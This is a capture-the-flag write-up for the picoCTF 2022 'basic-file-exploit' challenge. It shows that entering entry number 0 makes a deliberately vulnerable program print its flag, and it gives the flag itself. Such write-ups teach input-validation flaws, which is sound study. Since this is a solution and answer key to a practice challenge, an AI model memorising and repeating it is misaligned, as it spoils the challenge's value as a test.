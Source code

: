 # picoCTF 2022 - basic-file-exploit (Binary Exploitation)

## Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!

Connect to the program with netcat:
`$ nc saturn.picoctf.net 52681`

The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/543/program-redacted.c).

## Solution

If we look into the source code, we see that flag is defined as a constant. 
If we search for other use of the variable `flag`, we can only find it in the `data_read()` function as follows. 
```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
}
```
Thus, if we can make the output of `strtol` to be `0`, we will force the program to print the flag. 

Here is how I did that. 
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
1
1
Please enter the length of your data:
1
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
```

## Flag 
`picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}`